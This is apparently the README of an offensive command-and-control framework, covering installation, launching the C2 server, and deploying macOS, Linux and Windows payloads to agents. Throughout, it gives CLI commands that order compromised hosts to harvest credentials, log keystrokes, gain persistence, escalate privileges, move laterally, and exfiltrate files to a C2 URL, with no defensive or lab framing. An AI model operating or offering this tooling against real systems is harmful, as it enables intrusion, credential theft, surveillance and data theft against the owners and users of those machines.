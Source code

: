 ### Installation and Setup

1. Clone the Repository
   git clone https://github.com/4lph4-01/share
   cd your-repo-directory

2. Create a Virtual Environment
   python -m venv venv
   source venv/bin/activate  # On Windows, use `venv\Scripts\activate`

3. Install Dependencies
   pip install -r requirements.txt

4. Prepare Payloads (If necessary)
   Ensure your payload scripts are in the `payloads` directory:
   - payloads/macos_payload.sh
   - payloads/linux_payload.sh
   - payloads/windows_payload.ps1

### Running the C2 Server

   python c2_server.py

### CLI Usage

1. List Agents
   python cli.py list-agents

2. Deploy Payload
   python cli.py deploy-payload <agent_type>
   Replace <agent_type> with macos, linux, or windows.

3. Select and Send Commands to an Agent
   python cli.py select-agent
   You can specify the agent ID directly or choose from a list of available agents.

4. Generate Report
   python cli.py generate-report

5. Send a Specific Command
   python cli.py send-command <agent_id> <command>

### Supported Commands

Credential Harvesting
   python cli.py send-command <agent_id> cred_harvest

Persistence
   python cli.py send-command <agent_id> persistence

Privilege Escalation
   python cli.py send-command <agent_id> priv_escalation

Reconnaissance
   python cli.py send-command <agent_id> reconnaissance

Data Exfiltration
   python cli.py send-command <agent_id> exfiltrate <file_path> <c2_url>
   Replace <file_path> and <c2_url> with the actual file path and C2 URL.

Keylogging
   python cli.py send-command <agent_id> keylogging

Lateral Movement
   python cli.py send-command <agent_id> lateral_movement

### Modules Directory Structure
Ensure you have a modules directory with the following structure and content:
modules/
    cred_harvest.py
    persistence.py
    priv_escalation.py
    reconnaissance.py
    exfiltration.py
    keylogging.py
    lateral_movement.py

